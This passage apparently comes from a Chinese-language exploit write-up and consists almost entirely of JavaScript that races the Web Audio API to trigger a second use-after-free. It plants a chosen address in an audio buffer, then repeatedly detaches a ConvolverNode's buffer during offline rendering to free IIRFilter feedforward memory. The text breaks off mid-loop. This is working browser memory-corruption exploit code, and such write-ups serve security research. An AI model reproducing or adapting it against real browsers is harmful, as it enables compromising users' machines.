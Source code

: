 ```JavaScript
  triggerSecondUAF(
	  byteSwapBigInt(iirFilterFeedforwardAllocationPtr),
	  finalUAFCallback
	 );
}
```

#### 释放 IIRFilter.feedforward_

```JavaScript
async function triggerSecondUAF(addr, doneCb) {
  let counter = 0;
  let numChannels = 1;
  let audioCtx = new OfflineAudioContext(1, 0x100000, 48000);
  let bufferSource = audioCtx.createBufferSource();
  let convolver = audioCtx.createConvolver();
  let bigAudioBuffer = audioCtx.createBuffer(numChannels, 0x100, 48000);
  let smallAudioBuffer = audioCtx.createBuffer(numChannels, 0x2, 48000);

  smallAudioBuffer.getChannelData(0).fill(0);

  for (let i = 0; i < numChannels; i++) {
    let channelDataArray =
	    new BigUint64Array(bigAudioBuffer.getChannelData(i).buffer);
    channelDataArray[0] = addr;
  }

  bufferSource.buffer = bigAudioBuffer;
  convolver.buffer = smallAudioBuffer;

  bufferSource.loop = true;
  bufferSource.loopStart = 0;
  bufferSource.loopEnd = 1;

  bufferSource.connect(convolver);
  convolver.connect(audioCtx.destination);

  bufferSource.start();

  let finished = false;

  audioCtx.startRendering().then(function (buffer) {
    buffer = null;

    if (finished) {
      audioCtx = null;
      setTimeout(doneCb, 200);
      return;
    } else {
      finished = true;
      setTimeout(function () {
        triggerSecondUAF(addr, doneCb);
      }, 1);
    }
  });

  while (!finished) {
    counter++;
    convolver.buffer = null;

    await later(1); // wait 1 millisecond
    if (finished)
      break;

```